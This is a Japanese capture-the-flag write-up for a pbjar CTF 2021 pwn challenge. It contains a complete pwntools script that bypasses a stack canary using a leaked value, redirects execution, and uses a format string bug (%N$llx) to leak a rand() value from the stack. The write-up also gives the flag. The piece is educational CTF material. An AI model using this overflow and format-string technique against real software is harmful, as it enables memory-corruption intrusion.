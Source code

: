 ### Solution
最初の Canary 回避のところまではほぼ説明文内のサンプル通りです。

その次は Format string bug（書式文字列攻撃）で、スタックにある rand() の値を読み取ってそれを入力するとフラグが得られるというものです。

こんな感じのコードになりました。14番目で rand() は取れます。

{{< highlight python "linenos=table,hl_lines=15" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-
from pwn import *

for i in range(10,15):
    print(i)
    e = ELF('./walkthrough', checksec=False)
    s = remote("147.182.172.217", 42001)
    # s = process(e.path)
    s.recvuntil(b'later): ')
    canary = int(s.recvline(keepends = False), 16) #keepends = False drop the newline character
    s.sendline(b'a' * 0x48 + p64(canary) + b'a' * 8 + p64(e.sym['fmtstr'] + 1)) #figure out what x and y values should be

    s.recvuntil(b'Input the string that will be passed into printf.\n')
    s.sendline(b'%' +bytes(str(i).encode('utf8'))+ b'$llx')
    s.recvuntil(b'The printf result is:\n')
    msg = s.recvline()
    s.recvuntil(b"Now input the value you're guessing.")

    try:
        s.sendline(str(int(msg[:-1], 16)))
    except:
        s.sendline(b"1")
        pass

    s.recvuntil(b"You")
    msg = s.recvline()
    print(b"You" + msg)
    if b"beat" in msg:
        print(s.recvall())
    s.close()
    sleep(1)
{{< / highlight >}}

<br />
python3になってからカウンタ値を文字列と連結するのがめんどくさいんですが（ハイライト部分）、もっといいやり方があるんだろうな、きっと。。。（勉強しておきます）

<br />

Flag: `flag{4nd_s0_th3_3xpl01ts_b3g1n}`



<br /><br />
<br /><br />
## [Pwn]: Ret2Libc
- - -
<img src="https://captureamerica.github.io/writeups/img/pbjar_CTF_2021_pwn2.png" alt="pbjar_CTF_2021_pwn2.png">
